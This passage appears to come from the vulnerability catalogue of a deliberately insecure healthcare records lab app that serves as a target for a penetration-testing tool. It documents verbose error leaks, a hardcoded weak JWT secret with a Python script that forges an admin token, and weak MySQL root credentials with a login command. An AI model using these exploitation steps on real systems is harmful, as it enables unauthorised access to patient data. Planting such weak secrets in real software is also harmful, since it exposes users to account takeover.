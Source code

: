 #### 2.2 Verbose Error Messages
**Location:** All error handlers in `server.js`

**Description:** API returns stack traces and sensitive system information in error responses.

**Exploitation:**
```bash
# Trigger errors to get system info
curl "http://localhost:3000/api/patients/INVALID"
```

**MEDUSA Test Cases:**
- Map filesystem structure via error messages
- Identify software versions
- Discover internal endpoints

**Impact:** Information disclosure aiding further attacks

---

#### 2.3 Weak JWT Secret
**Location:** `JWT_SECRET = 'supersecret123'`

**Description:** JWT tokens use a weak, predictable secret key.

**Exploitation:**
```python
import jwt

# Forge valid JWT token
payload = {"id": 1, "username": "admin", "role": "admin"}
token = jwt.encode(payload, "supersecret123", algorithm="HS256")
print(token)
```

**MEDUSA Test Cases:**
- Crack JWT secret via dictionary attack
- Forge admin tokens
- Escalate privileges

**Impact:** Authentication bypass, privilege escalation

---

### 3. MySQL Database (`ehr-database`)

#### 3.1 Weak Root Password
**Credentials:**
- Root: `admin123`
- ehrapp: `Welcome123!`

**Exploitation:**
```bash
mysql -h localhost -P 3306 -u root -padmin123 healthcare_db
```

**MEDUSA Test Cases:**
- Brute force database credentials
- Direct database access from external network
- Extract all patient data
- Modify database contents
